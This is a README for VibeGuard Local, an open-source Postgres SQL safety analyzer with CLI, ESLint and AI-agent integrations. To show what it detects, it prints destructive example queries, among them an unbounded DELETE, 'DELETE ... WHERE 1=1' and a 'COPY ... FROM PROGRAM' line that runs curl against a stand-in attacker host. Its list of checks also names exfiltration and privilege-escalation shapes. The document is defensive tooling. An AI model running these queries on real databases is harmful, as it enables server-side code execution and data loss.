



# VibeGuard — Local

> **AI agents are casually writing SQL that can nuke your entire production database.**
> VibeGuard Local is the senior DBA review your AI doesn't know it needs.

**36 battle-tested safety checks. Sub-millisecond. 100% local.**
**Now agent-native** — drop-in `SKILL.md`, stable JSONL output, `--stdin` pipe, and experimental `--reflect` mode so agents actually learn instead of repeating the same dangerous patterns.

Runs in your editor as you type, in CI before you merge, in the CLI before you migrate, or right in your browser. Nothing ever leaves your machine.

[](https://www.npmjs.com/package/@vibeguard-dev/local)
[](https://www.npmjs.com/package/eslint-plugin-vibeguard)
[](./LICENSE)
[](https://github.com/MuddySheep/vibeguard-local/actions/workflows/ci.yml)
[](https://muddysheep.github.io/vibeguard-local/)

---

## Try it right now → [muddysheep.github.io/vibeguard-local](https://muddysheep.github.io/vibeguard-local/)

Paste any query. Or click one of 36 ready-made samples — one per shipped check. Watch the analyzer catch what you didn't know was wrong.

Runs entirely in your browser via WASM. Your SQL never leaves the page. No signup, no install, no telemetry.

[](https://muddysheep.github.io/vibeguard-local/)

---

## Three queries that look fine and absolutely aren't

These are real query shapes that have caused real outages. Paste any of them into the playground and watch what happens.

### 1. The audit-log trick that still deletes everything

```sql
WITH deleted_users AS (
    DELETE FROM users
    RETURNING id, account_status
)
INSERT INTO audit_log (user_id, action)
SELECT id, 'purged' FROM deleted_users
WHERE account_status = 0;
```

**Looks like:** "we only purge inactive users — there's a `WHERE account_status = 0` right there."
**Actually does:** deletes every row in `users`. The `WHERE` is on the outer `SELECT`, not the `DELETE`. The audit log just *looks* clean because only the inactive users get logged. You won't notice until the support tickets start.
**VibeGuard catches:** `SQL-003 (block, 97) — Unbounded DELETE statement.`

### 2. The `WHERE 1=1` placeholder that ships to production

```sql
DELETE FROM users WHERE 1=1;
```

**Looks like:** scoped — there's a `WHERE` clause, the AI was being careful.
**Actually does:** deletes everything. AI agents leave `WHERE 1=1` as a placeholder they "intend to fill in later." Sometimes they don't. Sometimes the human doesn't notice. Sometimes both.
**VibeGuard catches:** `SQL-034 (block, 95) — literal tautology on DELETE.`

### 3. The Postgres feature that's also remote code execution

```sql
COPY users FROM PROGRAM 'curl http://attacker.com/payload.csv';
```

**Looks like:** a normal `COPY` for loading data. The AI even commented it as "import users from CSV."
**Actually does:** runs `curl` (or `rm -rf`, or anything) on the database server, as the postgres OS user. If your AI agent has DB credentials and writes this, that's RCE on your Postgres host. This is documented Postgres behavior, not a vulnerability — and almost nobody knows it exists until someone exploits it.
**VibeGuard catches:** `SQL-016 (block, 99) — COPY ... FROM PROGRAM.`

There are 33 more like these. The full list is below.

---

## Who this is for

**You're shipping fast with AI and you're a little nervous about it.**
Cursor's writing your migrations. Claude Code is generating RPCs. Replit Agent's been touching the database for two hours and you haven't been watching every query. You want a tripwire that fires *before* the agent's confidently-wrong SQL hits production. That's this.

**You're a senior engineer and you read the three queries above and immediately knew which 2am incident each one represents.**
You don't need convincing. You need a `npm install`, an ESLint rule, and a CI step. Skip to [Install](#install).

**Specifically, this is for you if any of these are true:**

- **You write SQL by hand.** Migrations, RPC bodies, ad-hoc fixes. One missing `WHERE` clause wipes a table at 11pm and you spend Saturday restoring from backup.
- **You write SQL inside JavaScript or TypeScript.** Tagged template literals (`` sql`SELECT ...` ``) in postgres.js, Kysely, Drizzle's raw SQL escape, or any framework. Most ORM code is safe; the dangerous queries are the ones you wrote yourself in a tagged template and never linted.
- **You let AI agents touch your database.** Cursor, Claude Code, Replit Agent, custom orchestrators. The agent confidently generates `DELETE FROM users` and you find out it ran when the support tickets start.

**This is NOT for you if** your entire workflow is structured query builders you never override (`.from().select().eq()` chains, ActiveRecord without `find_by_sql`). Those are already parameterized and safe by construction. The moment SQL gets written as text, by anyone or anything — that's when this kicks in.

---

## For AI agents (new in v1.7)

VibeGuard now speaks fluent agent. Four pieces, designed to compose:

- **`--format=jsonl`** (also `--format=ndjson`) — stable, machine-readable output. One JSON object per catch on stdout, with a versioned `_schema` field. Perfect for CI gates, dashboards, and agent memory loops. Schema is committed in [`STABILITY.md`](./packages/sdk/STABILITY.md#jsonl-output-schema).
- **`--stdin`** — pipe SQL from agent memory or a shell variable directly. No temp file, no `mktemp` dance.
- **[`examples/agent-skill/SKILL.md`](./packages/sdk/examples/agent-skill/SKILL.md)** — drop-in skill file. Frontmatter uses only the fields Claude Code actually parses today (`name`, `description`); body is portable to Cursor / aider per the [companion README](./packages/sdk/examples/agent-skill/README.md). The skill teaches the agent to pre-flight every SQL through `vg-local` before executing.
- **`--reflect`** *(experimental)* — emits a richer reflection object per catch with `pain_score`, `importance`, `suggested_lesson` and a templated reflection paragraph designed for agent episodic-memory ingestion. Schema is `vg-reflect/0` and is **explicitly not under semver commitments yet**; see [STABILITY.md → Reflection output schema (EXPERIMENTAL)](./packages/sdk/STABILITY.md#reflection-output-schema-experimental) and [docs/reflect-mode.md](./packages/sdk/docs/reflect-mode.md) for the graduation contract and consumption recipes.

### Quick start

One command auto-detects every agent harness on this machine and installs the skill into each. Interactive — prompts before writing.

```bash
npx vg-local install-skill
```

For CI / scripts: `npx vg-local install-skill --yes`. For one specific harness: `--target=claude-user` (or `claude-project`, `cursor-rules-file`, `cursor-rules-dir`, `aider`).

The subcommand also offers (opt-in) a deterministic-activation directive in `CLAUDE.md` — the most reliable way to make the skill fire on every SQL-related prompt:

```bash
npx vg-local install-skill --yes --with-memory=user
# or --with-memory=project for project-scoped activation
```

Manual install (if you prefer not to use the subcommand): the SKILL.md file ships in the tarball at `node_modules/@vibeguard-dev/local/examples/agent-skill/SKILL.md`. Copy it to:

| Harness | Path |
|---|---|
| Claude Code (user scope) | `~/.claude/skills/vibeguard-sql-safety/SKILL.md` |
| Claude Code (project) | `.claude/skills/vibeguard-sql-safety/SKILL.md` |
| Cursor | append between `<!-- vibeguard-skill-begin -->` / `<!-- vibeguard-skill-end -->` markers in `.cursorrules`, OR drop in `.cursor/rules/vibeguard-sql-safety.mdc` |
| aider | append to `CONVENTIONS.md`, reference via `aider --read CONVENTIONS.md` |

The agent's pre-flight call from then on:

```bash
echo "$SQL" | vg-local analyze --stdin --format=jsonl
```

One JSON object per catch on stdout, exit code 1 if any `block`-severity catch fires, parse errors on stderr.

### What this changes

VibeGuard goes from "a wall the agent bounces off" to "a teacher the agent can ingest." The JSONL output composes with `jq`, dashboards, and CI. The reflection mode (when its schema graduates) lets the agent's memory loop compound lessons across runs, keyed on stable catch IDs — three months from now the agent doesn't even propose the dangerous shape because the lesson is in its semantic memory.

---

## What it does

You write SQL — by hand, by template literal, or by AI agent.

Before that SQL touches your database, VibeGuard reads it and flags 36 patterns that destroy data, leak data, or open security holes.

The check runs **locally, in milliseconds**. Nothing leaves your machine. There are four ways to use it:

- **Browser Playground** — try it instantly, no install, no signup
- **CLI** — for `.sql` files, migrations, CI pipelines, and agents (`--stdin` + `--format=jsonl`)
- **ESLint Plugin** — real-time underlines in `` sql`...` `` tagged templates as you type
- **SDK** — wire it into agents, custom dashboards, or memory loops (`--format=jsonl` + `--reflect`)

---

## Install

There are two packages. Pick based on where your SQL lives:

| Where your SQL lives | Install |
|---|---|
| `.sql` files (migrations, RPC bodies, ad-hoc) | **`@vibeguard-dev/local`** — the SDK and CLI |
| Inside JS/TS files as `` sql`...` `` template literals | **`eslint-plugin-vibeguard`** (which uses the SDK under the hood) |
| Both | Install both |

Most people start with `@vibeguard-dev/local`, run the CLI on their migrations, see what it catches, then add the ESLint plugin if they also have SQL inside template literals.

### `@vibeguard-dev/local` — the SDK and CLI

The engine. The SDK is what does the analysis; the CLI is the same engine wrapped for terminal use. Install this if you have `.sql` files anywhere or want to use the analyzer programmatically.

```bash
npm install @vibeguard-dev/local libpg-query
```

`libpg-query` is the Postgres parser. It's a peer dependency because some users want to control its version separately.

**Programmatic use:**

```ts
import { analyze, init } from '@vibeguard-dev/local';

await init(); // one-time WASM-parser bootstrap

const result = analyze(`UPDATE users SET email = 'x@y.com'`);
//   → { catches: [{ code: 'SQL-003', severity: 'block', confidence: 99, … }] }
```

`analyze()` takes a SQL string and returns an array of catches. Each catch has a stable code, a severity (`block` | `warn` | `info`), a confidence number, a human-readable message, and a suggested fix. That's the whole API.

**CLI use** (best for `.sql` files, CI, and agents):

```bash
npx @vibeguard-dev/local init                       # scaffold a sample SQL file + npm script
vg-local analyze 'src/**/*.sql'                     # analyze files; exit code 1 on any block-severity catch
vg-local analyze 'src/**/*.sql' --format=jsonl      # machine-readable output (one JSON object per catch)
echo "$SQL" | vg-local analyze --stdin --format=jsonl
                                                    # pipe from an agent — no temp file needed
vg-local analyze 'src/**/*.sql' --reflect           # experimental: reflection objects for agent memory loops
vg-local analyze 'src/**/*.sql' --fix               # apply autofixes for SQL-001 / 005 / 006 / 011
vg-local analyze 'src/**/*.sql' --fix-dry-run       # show what would change, don't write
```

The exit-code-1-on-block behavior is what makes it CI-friendly: drop `vg-local analyze` into a GitHub Action, and PRs that introduce a block-severity catch fail the build. Your AI can keep generating SQL all day; the build just won't let the destructive shapes through.

Full SDK and CLI reference: [`packages/sdk/README.md`](./packages/sdk/README.md).

### `eslint-plugin-vibeguard` — for SQL inside JS/TS template literals

If your SQL lives in `` sql`SELECT ...` `` tagged template literals, this gets you in-editor underlines as you type — same way ESLint flags any other lint error. Install on top of (or alongside) `@vibeguard-dev/local`.

```bash
npm install --save-dev eslint-plugin-vibeguard libpg-query
```

```js
// eslint.config.js (ESLint 9+ flat config)
import vibeguard from 'eslint-plugin-vibeguard';

export default [
  {
    files: ['**/*.{js,ts,tsx}'],
    plugins: { vibeguard },
    rules: { 'vibeguard/sql-safety': 'error' },
  },
];
```

Now `` sql`SELECT id FROM users WHERE active = NULL` `` underlines `active = NULL` in your editor with the SQL-005 catch. Run `eslint --fix` and it rewrites to `IS NULL`, the same way Prettier reformats code.

The plugin recognizes the `sql` tag by default. You can configure other tags (e.g. `db.query`) — see the plugin docs.

Full plugin docs: [`packages/eslint-plugin/README.md`](./packages/eslint-plugin/README.md).

---

## What's in the playground

The playground at [muddysheep.github.io/vibeguard-local](https://muddysheep.github.io/vibeguard-local/) is a hosted demo of the analyzer running entirely in your browser. Useful for:

- **Trying it before installing.** Paste a query, see what fires, decide if it's worth the `npm install`.
- **Sharing a finding.** The `share` button packs the editor contents into the URL. Copy the URL, paste it in Slack, your teammate sees the same query and the same verdict.
- **Reproducing a bug.** If the analyzer surprises you, the AST view shows what the parser actually saw, which is usually where the surprise came from.

All 36 catches have a one-click sample in the gallery. Clicking `SQL-013` loads a `DROP TABLE` example; `SQL-005` loads a `WHERE col = NULL` footgun; and so on. Use the samples to map a catch ID to a real query in seconds.

| Light theme | AST viewer |
|---|---|
|  |  |

---

## The 36 catches

Each has a stable code (e.g. `SQL-001`), a severity, a confidence range, and a docs page. **Catch IDs are forever-stable** — once a catch ID is published, it always means the same thing. Severity may change in major versions; the *meaning* of the ID does not. (Full stability commitment: [`STABILITY.md`](./packages/sdk/STABILITY.md).)

V1.0 through V1.5 shipped 15 catches focused on **correctness footguns** — cartesian products, NULL comparison bugs, missing WHERE clauses, recursive CTE termination. V1.6 adds 21 Postgres-specific catches focused on **destruction, exfiltration, privilege escalation, and analyzer blind spots** (`SQL-016` through `SQL-036`).

| Code | Title | Severity | Confidence | Default | Auto-fix |
|---|---|---|---|---|---|
| [`SQL-001`](./packages/sdk/docs/rules/sql-001.md) | Cartesian explosion (also UPDATE…FROM, DELETE…USING) | block | 90–95 | ON | placeholder |
| [`SQL-002`](./packages/sdk/docs/rules/sql-002.md) | Self-join footgun (also UPDATE…FROM, DELETE…USING) | warn | 70–85 | ON | — |
| [`SQL-003`](./packages/sdk/docs/rules/sql-003.md) | Unbounded UPDATE / DELETE | block | 95–99 | ON | — |
| [`SQL-004`](./packages/sdk/docs/rules/sql-004.md) | Implicit type coercion in WHERE | warn | 75–85 | ON | — |
| [`SQL-005`](./packages/sdk/docs/rules/sql-005.md) | NULL comparison footgun | warn | 90–95 | ON | yes |
| [`SQL-006`](./packages/sdk/docs/rules/sql-006.md) | OFFSET without ORDER BY | warn | 85–95 | ON | placeholder |
| [`SQL-007`](./packages/sdk/docs/rules/sql-007.md) | NOT IN with nullable subquery | warn | 75–85 | ON | — |
| [`SQL-008`](./packages/sdk/docs/rules/sql-008.md) | String-concat injection patterns | block | 80–95 | ON | — |
| [`SQL-009`](./packages/sdk/docs/rules/sql-009.md) | DISTINCT without obvious reduction | info | 60–75 | ON | — |
| [`SQL-010`](./packages/sdk/docs/rules/sql-010.md) | Correlated subquery in SELECT | warn | 70–85 | ON | — |
| [`SQL-011`](./packages/sdk/docs/rules/sql-011.md) | Aggregate without GROUP BY | warn | 85–95 | ON | yes |
| [`SQL-012`](./packages/sdk/docs/rules/sql-012.md) | Recursive CTE without termination | block | 80–95 | ON | — |
| [`SQL-013`](./packages/sdk/docs/rules/sql-013.md) | DROP / TRUNCATE / DDL destruction | block / warn | 85–99 | ON | — |
| [`SQL-014`](./packages/sdk/docs/rules/sql-014.md) | INSERT/UPDATE/DELETE without RETURNING | info | 50 | **OFF** (opt-in) | — |
| [`SQL-015`](./packages/sdk/docs/rules/sql-015.md) | `SELECT *` over-fetch | info | 60 | ON | — |
| [`SQL-016`](./packages/sdk/docs/rules/sql-016.md) | `COPY … FROM/TO PROGRAM` (server-side RCE) | block | 99 | ON | — |
| [`SQL-017`](./packages/sdk/docs/rules/sql-017.md) | `CREATE EXTENSION` of untrusted procedural language | block | 95 | ON | — |
| [`SQL-018`](./packages/sdk/docs/rules/sql-018.md) | `ALTER TABLE … DROP COLUMN` (silent data loss) | warn | 90 | ON | — |
| [`SQL-019`](./packages/sdk/docs/rules/sql-019.md) | `CREATE TRIGGER` (hidden side effects per row) | info | 75 | ON | — |
| [`SQL-020`](./packages/sdk/docs/rules/sql-020.md) | `CREATE OR REPLACE FUNCTION` (silent overwrite) | info | 70 | ON | — |
| [`SQL-021`](./packages/sdk/docs/rules/sql-021.md) | `GRANT … TO PUBLIC` (over-broad permission) | warn | 90 | ON | — |
| [`SQL-022`](./packages/sdk/docs/rules/sql-022.md) | `CREATE/ALTER ROLE … SUPERUSER` (privilege escalation) | block | 95 | ON | — |
| [`SQL-023`](./packages/sdk/docs/rules/sql-023.md) | `pg_terminate_backend` / `pg_cancel_backend` (DoS) | warn | 85 | ON | — |
| [`SQL-024`](./packages/sdk/docs/rules/sql-024.md) | `VACUUM FULL` (ACCESS EXCLUSIVE outage) | warn | 80 | ON | — |
| [`SQL-025`](./packages/sdk/docs/rules/sql-025.md) | `REFRESH MATERIALIZED VIEW` (blocking refresh) | warn | 75 | ON | — |
| [`SQL-026`](./packages/sdk/docs/rules/sql-026.md) | `MERGE` with tautological `ON` (full-table mutation) | block | 90 | ON | — |
| [`SQL-027`](./packages/sdk/docs/rules/sql-027.md) | `SET search_path` to attacker-controlled schema | warn | 85 | ON | — |
| [`SQL-028`](./packages/sdk/docs/rules/sql-028.md) | `pg_create_*_replication_slot` (exfiltration channel) | warn | 80 | ON | — |
| [`SQL-029`](./packages/sdk/docs/rules/sql-029.md) | `dblink` / `CREATE SERVER` (outbound network) | warn | 80 | ON | — |
| [`SQL-030`](./packages/sdk/docs/rules/sql-030.md) | `pg_read_*` / `lo_export` / `pg_ls_dir` (server FS) | warn | 90 | ON | — |
| [`SQL-031`](./packages/sdk/docs/rules/sql-031.md) | `INSERT … SELECT … ON CONFLICT DO UPDATE` (unbounded upsert) | info | 75 | ON | — |
| [`SQL-032`](./packages/sdk/docs/rules/sql-032.md) | `EXPLAIN ANALYZE` of a destructive statement | info | 80 | ON | — |
| [`SQL-033`](./packages/sdk/docs/rules/sql-033.md) | `DO $$ … $$` opaque procedural block | info | 70 | ON | — |
| [`SQL-034`](./packages/sdk/docs/rules/sql-034.md) | `WHERE 1=1` / literal tautology on UPDATE/DELETE | block | 95 | ON | — |
| [`SQL-035`](./packages/sdk/docs/rules/sql-035.md) | `UPDATE … FROM` without join predicate (cross-join overwrite) | block | 90 | ON | — |
| [`SQL-036`](./packages/sdk/docs/rules/sql-036.md) | `DELETE … USING` without join predicate (cross-join wipe) | block | 90 | ON | — |

**Severity meanings:**
- **block** — fails CI, errors in the editor, refuses the autofix flow without explicit override. Used for shapes that almost always cause real harm.
- **warn** — flagged but doesn't fail CI by default. Used for shapes that are usually wrong but have legitimate uses.
- **info** — informational. Useful for review, never fails anything.

**Confidence** is a number from 0 to 99 indicating how sure the analyzer is that this is a real problem and not a false positive. Higher numbers mean more confident.

**Default** is whether the rule is on out of the box. Most are. `SQL-014` is off by default because most teams don't actually need RETURNING on every write, and turning it on by default would create noise.

**Auto-fix** indicates whether `--fix` rewrites the SQL automatically (`yes`), inserts a placeholder for you to fill in (`placeholder`), or doesn't apply (`—`).

---

## What this is NOT

This is **static analysis only**. It checks the *shape* of the SQL text — what's written, before it runs. It does not:

- compare an agent's stated intent against what its SQL would actually do at runtime
- estimate real blast radius from the upstream Postgres planner
- provide tamper-evident audit logging across every database operation
- offer human-in-the-loop escalation for grey-zone queries
- track per-agent behavioral baselines over time

If you need any of those, there's a separate **VibeGuard Cloud** product — an MCP server (and, for self-hosters, a wire-protocol proxy) that sits between your AI agents and your production database at runtime. Different product, different scope. The two are designed to work together: the OSS in your editor and CI catches the dangerous shapes before they're committed; the Cloud catches what slips through, at the moment the agent tries to execute it.

This repo isn't a marketing surface for the Cloud product. But if you read the list above and thought "I need that gap filled," that gap exists, and that's what fills it.

---

## Dialect support

VibeGuard parses **Postgres SQL only**, via libpg-query (Postgres's own parser).

Queries in MySQL, MariaDB, or SQLite dialects will fail to parse. The most common surface for this is placeholder syntax — Postgres uses `$1, $2, $3`, while MySQL/MariaDB and many ORMs use `?`. A query like `INSERT INTO t (a, b) VALUES (?, ?)` will error with `syntax error near "?,?"` rather than running the rule analysis.

Multi-dialect support (MySQL, MariaDB, SQLite) is tracked in [#1](https://github.com/MuddySheep/vibeguard-local/issues/1). It's not scheduled for v1.x. Most catches are dialect-agnostic in principle, so it's not impossible — it's a parser and test-surface investment that hasn't been made yet. If you want it prioritized, 👍 the issue and leave a comment with your stack — that signal genuinely shapes the roadmap.

---

## Repo layout

This repo is a [pnpm workspace](https://pnpm.io/workspaces) with three packages and a playground app:

```text
vibeguard-local/
├── packages/
│   ├── sdk/              # @vibeguard-dev/local — analyzer + CLI
│   ├── eslint-plugin/    # eslint-plugin-vibeguard — sql`…` template-literal rule
│   └── ui/               # @vibeguard-dev/ui — design system used by the playground
├── apps/
│   └── playground/       # the live web playground at muddysheep.github.io/vibeguard-local
└── .github/workflows/
    ├── ci.yml                  # typecheck + lint + test + build + size on every push
    ├── playground-deploy.yml   # build → deploy to GitHub Pages
    └── release.yml             # creates draft GitHub Release on `v*` tag push
```

`@vibeguard-dev/ui` is published to npm but isn't documented here — it's an internal-shaped package the playground happens to depend on. If you're building a custom dashboard on top of the analyzer and want the same look, see [`packages/ui/README.md`](./packages/ui/README.md). Otherwise, you can ignore it.

To work on the repo locally:

```bash
corepack enable                    # picks up the pnpm version pinned in package.json
pnpm install
pnpm -r --if-present build         # build first — workspace deps resolve types via dist/
pnpm -r --if-present typecheck
pnpm -r --if-present test
```

Architecture and contribution process: [`packages/sdk/CONTRIBUTING.md`](./packages/sdk/CONTRIBUTING.md), [`packages/sdk/ARCHITECTURE.md`](./packages/sdk/ARCHITECTURE.md).

---

## License

[Apache 2.0](./LICENSE) across the whole workspace. See [`packages/sdk/NOTICE`](./packages/sdk/NOTICE) for attribution requirements that travel with derivative works.
